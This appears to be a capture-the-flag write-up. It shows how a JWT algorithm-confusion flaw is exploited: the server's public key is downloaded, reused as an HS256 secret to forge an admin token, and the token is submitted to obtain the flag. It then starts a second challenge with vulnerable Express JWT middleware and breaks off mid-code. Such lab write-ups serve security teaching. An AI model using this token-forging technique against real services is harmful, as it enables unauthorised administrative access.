so we crafted the jwt as an admin changing the signature algo for a symetric one:


wget http://52.74.85.143:5001/key.pem

then :
```javascript
jwtSimple.encode({auth: 'admin'}, fs.readFileSync('key.pem'), 'HS256')
```

we got the token : eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoiYWRtaW4ifQ.FcjqpkmsS9ebil24I2DZenMttB_q7d51mBy9tDKxiXs

then : http://52.74.85.143:5001/verify_token?token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoiYWRtaW4ifQ.FcjqpkmsS9ebil24I2DZenMttB_q7d51mBy9tDKxiXs

and got : axactf{JW7_c4n_b3_h4ck3d_1n_s0_m4ny_w4y5}





# Just Working Terrible

## The challenge

So i found a way to protect access to the flag. Basically, if I use a JWT token to identify user types, i should be able to know who is user and who is admin.

http://52.74.85.143:5000/

```javascript
let secrets = [];

app.use((req, res, next) => {
	let cookie = req.cookies ? req.cookies.session : "";
	res.locals.flag = false;
	try {
		let sid = JSON.parse(Buffer.from(cookie.split(".")[1], 'base64').toString()).secretid;
		if (sid==undefined || sid>=secrets.length || sid<0) {
			throw "invalid sid";
		}
		let decoded = jwt.verify(cookie, secrets[sid]);
		if (decoded.perms == "admin") {
			res.locals.flag = true;
		}
		if (decoded.rolled == "yes") {
			res.locals.rolled = true;
		}
		if (res.locals.rolled) {
			req.cookies.session = ""; // generate new cookie
		}
	} catch (err) {
		req.cookies.session = "";
	}
	if (!req.cookies.session) {
		let secret = crypto.randomBytes(32);
		cookie = jwt.sign({
			perms: "user",
			secretid: secrets.length,
			rolled: res.locals.rolled ? "yes" : "no"
		}, secret, { algorithm: "HS256" });
		secrets.push(secret);
		res.cookie('session',cookie,{
			maxAge: 1000*60*10, 
			httpOnly: true
		});
		req.cookies.session = cookie;
```